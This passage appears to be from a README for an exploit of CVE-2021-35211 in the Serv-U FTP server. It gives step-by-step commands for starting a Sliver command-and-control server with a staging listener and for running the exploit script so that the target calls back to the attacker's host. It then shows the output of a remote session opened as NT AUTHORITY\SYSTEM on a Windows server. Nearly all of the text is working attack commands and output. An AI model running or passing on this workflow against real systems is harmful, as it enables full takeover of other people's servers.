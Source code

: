 On your Sliver server run the `stage-listener` command to setup your listener. See the [Sliver docs](https://github.com/BishopFox/sliver/wiki/Stagers) for more details on staging:

```
elvis@h:/ehome/haggis$ sudo sliver-server

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain first strike
[*] Server v1.4.17 - 410f0756d26cb279216aecde68c14e68b5c9df32
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver > 
sliver > stage-listener --url tcp://0.0.0.0:10443 --profile win-shellcode
```

Run the exploit in stage mode:

```
% python3 CVE-2021-35211.py example.com stage your.sliver.box 10443
[+] Targeting example.com:22
[+] Setting up exploit payload buffer
[+] Constructing ROP chain
[+] Adding shellcode
[+] Spraying Serv-U-FTP server @ example.com:22
[+] Sending exploit trigger payload...
[+] Done! Sometimes it takes a few runs to work - try again if it failed.
```

If the exploit works (and it very rarely works with Sliver or Meterpreter payloads), you'll see something like this (and yes, Sliver came up with that payload name all by itself!):

```
[*] Session #4 ARTISTIC_PANTIES - example.com:57071 (WIN-EMCK6E5O0DI) - windows/amd64 - Wed, 20 Oct 2021 04:24:10 UTC

sliver > sessions -i 4

[*] Active session ARTISTIC_PANTIES (4)

sliver (ARTISTIC_PANTIES) > info

                ID: 4
              Name: ARTISTIC_PANTIES
          Hostname: WIN-EMCK6E5O0DI
              UUID: 0af9fbf2-c8b0-498c-8d9d-332f13e5d0f8
          Username: NT AUTHORITY\SYSTEM
               UID: S-1-5-18
               GID: S-1-5-18
               PID: 3956
                OS: windows
           Version: Server 2016 build 20348 x86_64
              Arch: amd64
    Remote Address: example.com:57071
         Proxy URL: none
     Poll Interval: 1
Reconnect Interval: 60
```
